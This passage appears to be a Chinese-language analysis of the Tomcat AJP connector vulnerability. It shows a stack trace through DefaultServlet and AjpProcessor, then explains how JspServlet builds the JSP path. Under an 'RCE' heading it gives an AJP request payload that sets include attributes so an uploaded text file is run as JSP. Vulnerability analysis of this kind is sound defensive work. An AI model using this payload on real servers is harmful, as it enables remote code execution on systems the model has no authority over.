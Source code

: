 ```
Copy to clipboardserveResource:839, DefaultServlet (org.apache.catalina.servlets)
doGet:504, DefaultServlet (org.apache.catalina.servlets)
service:634, HttpServlet (javax.servlet.http)
service:484, DefaultServlet (org.apache.catalina.servlets)
service:741, HttpServlet (javax.servlet.http)
internalDoFilter:231, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilter:52, WsFilter (org.apache.tomcat.websocket.server)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
invoke:199, StandardWrapperValve (org.apache.catalina.core)
invoke:96, StandardContextValve (org.apache.catalina.core)
invoke:493, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:137, StandardHostValve (org.apache.catalina.core)
invoke:81, ErrorReportValve (org.apache.catalina.valves)
invoke:660, AbstractAccessLogValve (org.apache.catalina.valves)
invoke:87, StandardEngineValve (org.apache.catalina.core)
service:343, CoyoteAdapter (org.apache.catalina.connector)
service:476, AjpProcessor (org.apache.coyote.ajp)
process:66, AbstractProcessorLight (org.apache.coyote)
process:808, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1498, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1142, ThreadPoolExecutor (java.util.concurrent)
run:617, ThreadPoolExecutor$Worker (java.util.concurrent)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:745, Thread (java.lang) 
```

### RCE

```
Copy to clipboard"HTTP/1.1" "/1.jsp" 127.0.0.1 localhost porto 8009 false "Cookie:AAAA=BBBB" "javax.servlet.include.request_uri:/","javax.servlet.include.path_info:1.txt","javax.servlet.include.servlet_path:/upload/" 
```

`org/apache/jasper/servlet/JspServlet#service`负责处理`xxx.jsp`访问逻辑，跟进来 **jspUri** 是通过 **servlet_path** 和 **path_info** 拼接而来的。

![image](../img/076788097d67c007f8890bbc3ec81a19.png)

之后便会进入 **serviceJspFile** 逻辑进行处理。
